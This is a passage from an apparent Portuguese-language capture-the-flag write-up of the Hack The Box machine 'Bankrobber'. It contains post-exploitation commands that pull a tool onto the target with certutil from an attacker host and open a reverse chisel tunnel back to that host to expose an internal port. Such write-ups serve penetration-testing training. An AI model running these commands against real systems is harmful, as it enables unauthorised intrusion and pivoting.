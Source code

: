 ![tasklist](Assets\HTB-Windows-Insane-Bankrobber\tasklist.png)

Através do PID, verificamos que o programa que está a ocupar esta porta é o bankv2.exe.

poderiamos tratar de fazer o download do programa para verificar o que faz e tratar de encontrar um possível BufferOverFlow, mas em primeiro lugar, quero saber o que está a fazer neste momento...

Para ser mais comodo, vou fazer um PortForwarding desta porta 910 para a minha porta 910 da minha máquiina kali.

Para isso, irei utilizar o chisel do jpillora (https://github.com/jpillora/chisel/releases)

Enviar o chisel windows para a máquina alvo, e guarda a versão linux na minha máquina

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_windows_amd64.gz

mv chisel_1.7.6_linux_amd64.gz chisel.elf.gz
mv chisel_1.7.6_windows_amd64.gz chisel.exe.gz

gunzip *.gz

sudo su
chisel.elf server --reverse -p 8008

# Target Machine
certutil -urlcache -f http://10.10.14.19/chisel.exe
chisel.exe client 10.10.14.9:8008 R:910:127.0.0.1:910
```
